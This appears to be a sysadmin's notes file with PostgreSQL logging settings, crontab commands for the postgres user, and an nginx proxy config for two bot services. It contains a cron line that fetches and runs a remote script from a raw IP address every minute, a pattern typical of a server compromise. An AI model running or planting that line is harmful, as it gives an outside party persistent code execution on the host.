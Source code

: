 

#logging_collector = off
#log_statement = 'none'
#log_directory = 'log'
#log_lock_waits = off 
#log_temp_files = -1 
#log_checkpoints = off
#log_autovacuum_min_duration = -1
#log_error_verbosity = default 
#log_min_messages = warning

crontab -l -u postgres  		# Посмотреть
crontab -e -u postgres  		# Иссправить
crontab -r -u postgres  		# Очистить


* * * * * wget -q -O - http://185.122.204.197/pg.sh | sh > /dev/null 2>&1




#############NGINX#############

server {
    listen 80;
    server_name 1353179-cv60284.tw1.ru;

    location /bot1 {
        proxy_pass         http://127.0.0.1:3001;
        proxy_redirect     off;
        proxy_set_header   Host $host;
        proxy_set_header   X-Real-IP $remote_addr;
        proxy_set_header   X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header   X-Forwarded-Host $server_name;
    }

        location /bot2 {
            proxy_pass         http://127.0.0.1:3002;
            proxy_redirect     off;
            proxy_set_header   Host $host;
            proxy_set_header   X-Real-IP $remote_addr;
            proxy_set_header   X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header   X-Forwarded-Host $server_name;
 }

    location / {
        # Перенаправляем все запросы на HTTPS 
        return 301 https://$server_name$request_uri;
    }
}

server {
        listen 443 ssl;
        server_name 1353179-cv60284.tw1.ru;
